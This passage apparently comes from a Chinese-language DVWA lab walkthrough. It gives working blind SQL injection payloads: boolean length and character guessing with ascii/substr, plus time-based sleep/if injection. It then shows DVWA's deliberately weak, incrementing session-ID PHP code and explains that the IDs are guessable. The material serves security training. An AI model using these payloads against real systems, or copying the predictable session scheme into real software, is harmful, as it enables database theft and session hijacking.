 然后判断数据库名称长度：

```
1' and length(database())=1#
1' and length(database())=2#
1' and length(database())=3#
1' and length(database())=4# 存在
```

然后逐字符进行判断：

```
1' and ascii(substr(database(),1,1))<122# 可使用二分法
```

也可以使用时间注入的方法：

```
1'and sleep(3)#  有延迟
1 and sleep(3)#  无延迟
```

```
1' and if(ascii(substr(database(),1,1))<120,sleep(5),1)#
```

**2.medium**

跟前一模块一样，先burpsuite抓包，再进行注入。

**3.high**

跟前一模块相同。



### weak Session IDs

**1.low**

```php
<?php

$html = "";

if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if (!isset ($_SESSION['last_session_id'])) {
        $_SESSION['last_session_id'] = 0;
    }
    $_SESSION['last_session_id']++;
    $cookie_value = $_SESSION['last_session_id'];
    setcookie("dvwaSession", $cookie_value);
}
?> 
```

![image-20220127212611823](https://s2.loli.net/2022/01/27/FeaI6jQ8923fin7.png)

每按一次，session_id+1，因此可以猜解。
